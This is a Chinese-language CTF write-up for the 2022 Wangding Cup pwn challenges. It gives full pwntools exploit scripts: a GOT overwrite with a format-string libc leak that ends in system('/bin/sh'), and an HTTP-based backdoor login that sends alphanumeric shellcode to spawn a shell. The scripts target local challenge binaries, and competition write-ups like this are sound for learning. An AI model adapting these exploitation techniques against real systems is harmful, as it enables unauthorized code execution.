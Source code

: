 ```yaml
---
title: 2022 网鼎杯线上赛 pwn Writeup
date: 2022-08-24 6:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=43/
pin: false
published:
---
```


# 青龙组

## crypto091

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import hashlib
import os
from hashlib import sha256
# context.log_level = 'debug'

def dbg(con=''):
    gdb.attach(p,con)
    # pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

hs = 'c22a563acc2a587afbfaaaa6d67bc6e628872b00bd7e998873881f7c6fdc62fc'
for i in range(17090000000,17099999999):
	a = sha256('86'+str(i).encode()).hexdigest()
	if(a == hs):
		print(i)
		break

p.interactive()
```

## pwn239

非预期

![image-20220826195259755](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220826195259755.png)

# 白虎组

## program

![image-20220828203615901](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220828203615901.png)

got表可写，add函数记录size的数组下标为int类型，且num++是先完成所有赋值操作再自+1，导致可申请11个块内容，能覆盖到num这个下标变量。我们可以利用add功能在0x40a0这个数组上方等间隔地址写入内容，

执行show功能前会对num非0校验，show功能同样存在数组越界，利用这点可以实现在0x40a0这个数组上方等间隔地址泄露其内容，泄露长度在0x40a0这个数组最后几个位置取。

利用思路在0x40a0数组下标为-100时为printf_got+4的位置，-300时存在一个程序地址，泄露程序地址以获得基地址，再修改print_got+8(memset_got)为printf_plt，利用格式化字符串泄露libc地址(这里因为用stycpy写入内容，存在offbynull不能直接泄露got表)，泄露后用同样的方法改menset_got为system即可

![image-20220828203820184](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220828203820184.png)

![image-20220828204225818](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220828204225818.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import sys
import struct
import hashlib
import os
from hashlib import sha256
# context.log_level = 'debug'

ip = ""
port = ""
# p = remote(ip,port)
p = process("./main")

elf = ELF("./main")
libc = elf.libc

def dbg(con=''):
    gdb.attach(p,con)
    # pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------
def add(con,size):
	sl('1')
	p.sendlineafter("Please enter your data:",con)
	sla('Please enter the length of your data:',size)

def show(idx):
	sl("2")
	sla("Please enter the entry number of your data:",idx)

dest = 0x40A0

for i in range(10):
	add('\x00'*98,1)
	
# dbg('b *$rebase(0x13E5)\nc\n')
add('b'*8+p64(8),-2)
# dbg("dq $rebase(0x40a0) 200\n")

show(-3)
p.recvline()
base = u64(p.recv(6).ljust(8,'\x00'))-0x6b8
lg('base')

# dbg("dq $rebase(0x40a0) 200\n")
add('b'*4+p64(base+0x1070)[:-1],1)

for i in range(10):
	add('\x00'*98,1)
add('b'*8+p64(8),-1)# num=0
add('%33$p',1)

sl(2)
sl(1)

p.recvuntil("0x")
libc_base = int(p.recvuntil("Pl")[:-2],16)-0x24083
lg('libc_base')
bin_sh = libc_base+libc.search("/bin/sh").next()
system = libc_base + libc.sym['system']
one = libc_base +0xe3b01
lg('bin_sh')

for i in range(9):
	add('\x00'*98,1)
add('b'*8+p64(8),-2)
add('b'*4+p64(system),1)

add('/bin/sh',1)
sl(2)
p.interactive()
```

## Easybackdoor

逆向处理命令的函数fetch，获得输入命令的方式

输入后会判断输入是否可视化，同时判断相应字段执行功能

![image-20220827171338887](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220827171338887.png)

backdoor需要登录验证才能执行，会直接执行输入的shellcode，在执行前对寄存器进行了赋值，所以要先清空寄存器(汇编xor)，然后和shellcode拼接，用alpha3生成可视化shellcode

![image-20220827171531529](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220827171531529.png)

```python
from pwn import *
context.arch='amd64'
sc = '''
xor edi, edi
xor esi, esi
xor edx, edx
'''
scl = asm(sc)+asm(shellcraft.sh())
print scl
```



```python
# _*_ coding:utf-8 _*_
from pwn import *
p = process("./chall")
elf = ELF("./chall")
libc = elf.libc

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))
#-----------------------------------------------------------------------------------------

pay = "POST /Login HTTP/1.0\r\n"
pay += "Content-Length:{}\n".format(len("root&R00T"))+'\n'
pay += "root&R00T"
ru("content> ")
p.send(pay)

sc = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M1L8N1M8N1O3s2G0P164I1P0Q2z1l0h7O1O0B0f1L3P3F080B08031K4p0X2t0i060N001N3V2t0Z0n0o14024v0e2n4y3N114P0Z130h7l040A04'
pay = "POST /B4ckd0or HTTP/1.0\r\n"
pay += "Content-Length:{}\n\n".format(len(sc))
pay += sc
ru("content> ")
p.send(pay)

p.interactive()
```

